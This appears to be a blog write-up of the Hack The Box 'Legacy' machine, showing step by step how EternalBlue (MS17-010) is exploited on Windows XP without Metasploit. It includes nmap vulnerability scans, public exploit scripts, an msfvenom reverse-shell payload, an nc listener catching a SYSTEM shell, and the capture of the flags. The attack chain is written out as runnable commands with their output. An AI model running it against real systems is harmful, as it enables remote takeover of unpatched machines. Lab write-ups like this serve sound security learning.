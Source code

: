 ```yaml
---
title: Hack The Box - Legacy (Without Metasploit)
date: 2021-01-12 14:00:00 +0800
categories: [hackthebox]
tags: [windows, eternalblue]
image:
    path: /assets/images/legacy.png
---
```


# Configuration

The operating system that I will be using to tackle this machine is a Kali Linux VM.

What I learnt from other writeups is that it was a good habit to map a domain name to the machine's IP address so as that it will be easier to remember. This can done by appending a line to `/etc/hosts`.

```bash
$ echo "10.10.10.4 legacy.htb" | sudo tee -a /etc/hosts
```

# Reconnaissance

```bash 
$ nmap -sT -sV -sC -Pn -p- legacy.htb  
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-10 08:13 EST
Nmap scan report for legacy.htb (10.10.10.4)
Host is up (0.010s latency).

PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -4h00m00s, deviation: 1h24m51s, median: -5h00m00s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:87:21 (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2021-01-10T12:13:27+02:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.34 seconds
```

# Enumeration

## Port 445 `Windows XP microsoft-ds`

If we use the `smb-vuln-*` scripts of `nmap`, we see that it has some vulnerabilities.

```bash
$ nmap -Pn -p 445 --script smb-vuln-* legacy.htb  
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-10 08:17 EST
Nmap scan report for legacy.htb (10.10.10.4)
Host is up (0.013s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

Nmap done: 1 IP address (1 host up) scanned in 7.35 seconds
```

# Exploitation

Out of these 2 vulnerabilties, I will be picking `CVE-2017-0143`, or better known as `EternalBlue`. `Metasploit` has modules that exploit this vulnerability but I will be using some scripts that I found on Github that are able to do the same job.

```bash
$ mkdir eternalblue
$ curl https://raw.githubusercontent.com/helviojunior/MS17-010/master/send_and_execute.py > eternalblue/send_and_execute.py
$ curl https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py > eternalblue/mysmb.py
$ curl https://raw.githubusercontent.com/worawit/MS17-010/master/checker.py > eternalblue/checker.py
```

Exploiting `EternalBlue` requires us to find an accessible named pipe, so lets run `checker.py`.

```bash
$ python eternalblue/checker.py legacy.htb
Target OS: Windows 5.1
The target is not patched

=== Testing named pipes ===
spoolss: Ok (32 bit)
samr: STATUS_ACCESS_DENIED
netlogon: STATUS_ACCESS_DENIED
lsarpc: STATUS_ACCESS_DENIED
browser: Ok (32 bit)
```

It seems there are 2 named pipes we can use and note that the machine is `32-bit`. Now we just need to prepare an executable that establishes a reverse shell connection back to us when executed. We can use msfvenom for this.

```bash
$ msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=1337 -f exe > reverse.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

Now that is done, we setup our `nc` listener.

```bash
$ rlwrap nc -lvnp 1337
listening on [any] 1337 ...
```

Then finally we can exploit the vulnerability with `send_and_execute.py` and specifying our executable and the name of the named pipe we want to use.

```bash
$ python eternalblue/send_and_execute.py legacy.htb reverse.exe 445 browser 
Trying to connect to legacy.htb:445
Target OS: Windows 5.1
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x8230d230
SESSION: 0xe16bcf58
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe16beb90
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe16bec30
overwriting token UserAndGroups
Sending file GC726C.exe...
Opening SVCManager on legacy.htb.....
Creating service nrNL.....
Starting service nrNL.....
The NETBIOS connection with the remote host timed out.
Removing service nrNL.....
ServiceExec Error on: legacy.htb
nca_s_proto_error
Done
```

On our listener that we setup beforehand, we receive a connection.

```bash
$ rlwrap nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.4] 1028
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32> whoami
'whoami' is not recognized as an internal or external command,
operable program or batch file.
```

Unfortunately there is no `whoami.exe` but we can run `SMB` server using `smbserver.py` from [`impacket`](https://github.com/SecureAuthCorp/impacket) and share a copy of `whoami.exe` which we can retrieve from `/usr/share/windows-resources/binaries/`.

```bash
$ cd /usr/share/windows-resources/binaries/
$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali . 
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Then from the shell we got, we can do this to verify the current user.

```
C:\WINDOWS\system32> \\10.10.XX.XX\kali\whoami.exe
NT AUTHORITY\SYSTEM
```

Alright, we got `SYSTEM`!

# user.txt

The user flag is located at the desktop of `john`.

```
C:\Documents and Settings\john\Desktop> type user.txt
e69aXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

# root.txt

The root flag is located at the desktop of `Administrator`, as always.

```
C:\Documents and Settings\Administrator\Desktop> type root.txt
9934XXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

### Rooted ! Thank you for reading and look forward for more writeups and articles !